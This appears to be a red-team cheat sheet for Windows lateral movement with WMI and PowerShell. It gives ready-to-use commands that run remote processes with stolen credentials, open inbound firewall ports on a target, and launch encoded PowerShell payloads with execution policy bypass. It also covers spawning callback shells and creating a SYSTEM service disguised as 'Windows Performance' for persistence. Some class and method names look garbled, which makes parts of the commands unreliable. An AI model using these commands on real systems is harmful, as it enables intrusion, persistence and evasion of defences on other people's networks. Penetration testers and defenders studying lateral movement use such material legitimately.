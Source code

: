 `C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "cmd.exe /c netsh advfirewall firewall add rule name=\"<rule_name>\" dir=in action=allow protocol=tcp localport=<port>"`

## 02 - Powershell

### 2.1 - Usage

#### 2.1.1 - Invoke-WmiMethod

```
PS C:\> Get-CimInstance -Classname Win32_Net* -List

PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "<commands>"
```

#### 2.1.2 - Invoke-CimMethod

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"
}
```

### 2.2 - Use Cases

#### 2.2.1 - Spawn Callback Shells

##### 2.2.1.1 - Download Cradle

- `Invoke-WmiMethod`

```powershell
PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "powershell -E <base64_encoded>"
```

```powershell
PS C:\> $servicetype = [byte] 16
$errorcontrol = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $errorcontrol, $null,$null,"WinPerf","c:\windows\system32\cmd.exe /c powershell -e <base64_encoded>",$null,$servicetype,"Manual","NT AUHORITY\SYSTEM","" -ComputerName <IP> -Credential <domain_name>\Administrator
```
